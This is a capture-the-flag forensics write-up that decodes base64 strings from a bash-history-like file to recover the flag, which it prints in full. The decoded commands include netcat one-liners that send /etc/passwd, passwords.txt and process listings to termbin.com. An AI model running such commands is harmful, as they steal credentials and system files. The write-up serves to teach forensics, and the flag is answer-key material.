 
# Challenge Name: History  


![date](https://img.shields.io/badge/date-16.03.2021-brightgreen.svg)  
![solved after CTF](https://img.shields.io/badge/solved-after%20CTF-red.svg) 
![misc category](https://img.shields.io/badge/category-forensics-lightgrey.svg)
![score](https://img.shields.io/badge/score-100-blue.svg)


## Attached files
- [ctrl_H](ctrl_H)





## Detailed solution
The challenge talk about a file found at one of the company's computers. The file represent a list of commands which is similar to a bash history file.  

Start looking at the file, we found some base64 encoding strings : 

````bash
echo aWRlaDEK | base64 -d
echo cHMgYXggPiBwcm9jZXNzZXM= | base64 -d | bash
echo Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK | base64 -d | bash
echo bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
echo kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=
echo ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj
echo Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo= | base64 -d | bash
echo Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg== | base64 -d | bash
````
Let's decode them : 

````
aWRlaDEK                                                             ideh1
cHMgYXggPiBwcm9jZXNzZXM=                                             ps ax > processes
Y2F0IHByb2Nlc3NlcyB8IG5jIHRlcm1iaW4uY29tIDEzMzcK                     cat processes | nc termbin.com 1337
bHMgLWwgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==                             ls -l | nc termbin.com 1337 
kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=                           DãU4ãÔww¥#U%DE#6sÓÐ
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj                           echo aWRlaHt0aDBzM19iNDV0M3JkNV ideh{th0s3_b45t3rd5
Y2F0IC9ldGMvcGFzc3dkIHwgbmMgdGVybWJpbi5jb20gMTMzNwo=                 cat /etc/passwd | nc termbin.com 1337
Y2F0IHBhc3N3b3Jkcy50eHQgfCBuYyB0ZXJtYmluLmNvbSAxMzM3Cg==             cat passwords.txt | nc termbin.com 1337
````

We reconize the first part from the flag "ideh{th0s3_b45t3rd5" we can assume that the other part has been cut from the encoded base64. 
  
Decoding "kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo=" has produce some random caracteres so probably it's the missing part.  

The **CTRL_H** from the challenge filename is a keyboard shortcut for bash used to delete the character before the cursor. So we know that a part has been deleted.   

Lets combine ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVj and kwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= and decode it : 

````
ZWNobyBhV1JsYUh0MGFEQnpNMTlpTkRWME0zSmtOVjkwYURONVgzTjBNR3d6WDIxNVgyUTBkRFI5Q2c9PQo= 
-> echo aWRlaHt0aDBzM19iNDV0M3JkNV90aDN5X3N0MGwzX215X2Q0dDR9Cg==
-> ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4}
````

## Flag

```
ideh{th0s3_b45t3rd5_th3y_st0l3_my_d4t4} 
```

